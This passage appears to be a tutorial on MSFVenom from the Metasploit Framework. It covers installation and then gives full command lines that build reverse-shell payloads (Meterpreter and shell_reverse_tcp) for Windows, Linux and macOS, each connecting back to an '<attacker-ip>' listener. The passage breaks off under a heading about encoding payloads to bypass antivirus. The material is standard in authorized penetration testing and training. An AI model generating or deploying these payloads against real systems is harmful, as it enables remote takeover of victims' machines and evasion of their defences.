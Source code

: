 1. **Install MSFVenom via Metasploit Framework:**

   - Download the Metasploit installer from the [Rapid7 website](https://www.metasploit.com/download).

2. **Run the Installer:**

   - Follow the instructions provided by the installer to complete the installation process.

3. **Run MSFVenom:**

   - Open the command prompt or PowerShell and navigate to the Metasploit installation directory, then run:

```cmd
msfvenom
```

## Basic Usage
MSFVenom is a versatile tool with many options for creating and encoding payloads. Here are some common commands and usage examples:

### Generate a Basic Payload
To generate a basic Windows reverse shell payload:

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
```

- **`-p windows/meterpreter/reverse_tcp`**: Specifies the payload type (Windows Meterpreter reverse TCP shell).
- **`LHOST=<attacker-ip>`**: Sets the IP address of the attacker (listener).
- **`LPORT=4444`**: Sets the port number on which the payload will connect back.
- **`-f exe`**: Specifies the output format as a Windows executable.
- **`-o shell.exe`**: Specifies the output file name.

### Generate a Payload for Linux
To generate a Linux reverse shell payload:

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf -o shell.elf
```

- **`-p linux/x86/meterpreter/reverse_tcp`**: Specifies the payload type (Linux Meterpreter reverse TCP shell).
- **`-f elf`**: Specifies the output format as a Linux ELF binary.

### Generate a Payload for macOS
To generate a macOS reverse shell payload:

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f macho -o shell.macho
```

- **`-p osx/x86/shell_reverse_tcp`**: Specifies the payload type (macOS reverse TCP shell).
- **`-f macho`**: Specifies the output format as a macOS Mach-O binary.

### Encode a Payload
To encode a payload using a specific encoder to bypass antivirus:
